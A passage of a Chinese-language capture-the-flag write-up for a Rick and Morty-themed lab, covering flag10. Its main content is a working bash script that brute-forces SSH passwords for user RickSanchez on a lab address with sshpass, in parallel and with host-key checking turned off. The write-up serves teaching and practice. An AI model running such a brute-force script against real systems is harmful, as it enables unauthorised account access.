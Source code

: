 顺便说一下，一开始并没有找flag8时，我觉得逆向应该也能找到flag9啊，但我失败了。。。

### flag10

根据上文的提示，RickSanchez的密码应该时一个大写字母和一个数字再加Rick的一个老乐队中的单词的组合。

搜一下就可以找到乐队的名字应该是[The Flesh Curtains ](https://rickandmorty.fandom.com/wiki/The_Flesh_Curtains)

暴力破解试试，编写shell脚本如下：

```bash
#!/bin/bash

# 设置一个标志文件来表示找到密码
flag_file="password_found.flag"

# 清理旗标文件（如果存在）
rm -f $flag_file

# 初始化计数器
counter=0
max_processes=10

# 生成所有可能的密码并在后台尝试它们
for uppercase in {A..Z}; do
  for digit in {0..9}; do
    for band in {"The","Flesh","Curtains"}; do
      password="${uppercase}${digit}${band}" # 组合密码
      echo "尝试密码: ${password}"

      # 在后台尝试登录，并执行一个简单命令
      (
        if sshpass -p "${password}" ssh -p 22222 -o StrictHostKeyChecking=no RickSanchez@192.168.56.101 "echo 'Login Successful'" >/dev/null 2>&1; then
          echo "找到密码: ${password}"
          touch $flag_file
          exit 0
        fi
      ) &

      let counter+=1

      # 检查是否找到密码，如果找到则退出循环
      if [ -f $flag_file ]; then
        break 3
      fi

      # 如果达到最大进程数，等待任意一个进程结束
      if (( counter >= max_processes )); then
        wait -n
        let counter-=1
      fi
    done
  done
done

wait # 等待所有后台进程完成

# 如果没有找到密码
if [ ! -f $flag_file ]; then
  echo "未找到密码"
else
  rm -f $flag_file # 清理旗标文件
fi
```
